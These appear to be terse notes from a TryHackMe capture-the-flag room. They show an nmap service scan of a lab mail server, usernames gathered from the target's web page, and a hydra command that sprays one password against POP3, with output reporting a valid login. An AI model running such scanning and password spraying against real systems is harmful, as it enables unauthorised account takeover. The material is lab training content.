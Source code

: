 <code>

https://tryhackme.com/room/yougotmail
  
alias https://brownbrick.co/
not fill to etc/hosts

```root@ip-10-10-123-138:~# nmap -sV brownbrick.co
Starting Nmap 7.80 ( https://nmap.org ) at 2025-10-06 14:05 BST
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for brownbrick.co (10.10.239.127)
Host is up (0.00056s latency).
Not shown: 992 closed ports
PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          hMailServer smtpd
110/tcp  open  pop3          hMailServer pop3d
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp  open  imap          hMailServer imapd
445/tcp  open  microsoft-ds?
587/tcp  open  smtp          hMailServer smtpd
3389/tcp open  ms-wbt-server Microsoft Terminal Services
MAC Address: 02:1A:41:63:2C:59 (Unknown)
Service Info: Host: BRICK-MAIL; OS: Windows; CPE: cpe:/o:microsoft:windows
```


**Username Enumeration**
from web page
oaurelius@brownbrick.co
wrohit@brownbrick.co
lhedvig@brownbrick.co
tchikondi@brownbrick.co
pcathrine@brownbrick.co
fstamatis@brownbrick.co


oot@ip-10-10-196-188:~# hydra -L /root/Desktop/users -p bricks pop3://10.10.98.112
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-06 16:15:48
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:6/p:1), ~1 try per task
[DATA] attacking pop3://10.10.98.112:110/
[110][pop3] host: 10.10.98.112   login: lhedvig@brownbrick.co   password: bricks
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-06 16:15:49


